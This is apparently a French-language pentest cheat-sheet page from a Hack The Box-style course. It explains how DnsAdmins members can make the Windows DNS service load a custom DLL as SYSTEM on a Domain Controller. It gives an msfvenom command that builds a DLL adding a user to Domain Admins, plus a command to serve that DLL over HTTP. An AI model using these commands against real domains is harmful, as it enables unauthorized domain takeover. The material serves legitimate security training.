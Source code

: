 # DnsAdmins

***

{% hint style="warning" %}
Les membres du groupe [DnsAdmins](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#dnsadmins) ont accès aux informations DNS sur le réseau. Le service DNS de Windows prend en charge des plugins personnalisés et peut appeler des fonctions de ces plugins pour résoudre des requêtes de noms qui ne sont pas dans le scope des zones DNS hébergées localement.&#x20;

Le service DNS s'exécute en tant que **NT AUTHORITY\SYSTEM**, donc l'appartenance à ce groupe pourrait potentiellement être exploitée pour escalader des privilèges sur un **Contrôleur de Domaine** ou dans une situation où un serveur distinct agit comme serveur DNS pour le domaine. Il est possible d'utiliser l'outil intégré [dnscmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) pour spécifier le chemin du fichier DLL du plugin. Comme expliqué dans ce très bon [post](https://adsecurity.org/?p=4064), l'attaque suivante peut être réalisée lorsque DNS est exécuté sur un **Contrôleur de Domaine** (ce qui est très courant) :

* La gestion de DNS se fait via RPC.
* [ServerLevelPluginDll](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) nous permet de charger une DLL personnalisée sans aucune vérification du chemin de la DLL. Cela peut être fait avec l'outil **dnscmd** depuis la ligne de commande.
* Lorsque un membre du groupe **DnsAdmins** exécute la commande **dnscmd** ci-dessous, la clé du registre **HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll** est remplie.
* Lorsque le service DNS est redémarré, la DLL dans ce chemin sera chargée (c'est-à-dire un partage réseau auquel le compte machine du Contrôleur de Domaine peut accéder).
* Un attaquant peut charger une DLL personnalisée pour obtenir un shell inversé ou même charger un outil tel que **Mimikatz** en tant que DLL pour vider les identifiants.
{% endhint %}

***

### <mark style="color:red;">Leveraging DnsAdmins Access</mark>

<mark style="color:green;">**Generating Malicious DLL**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot_1@htb[/htb]$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```
{% endcode %}

<mark style="color:green;">**Starting Local HTTP Server**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot_1@htb[/htb]$ python3 -m http.server 7777
```
{% endcode %}
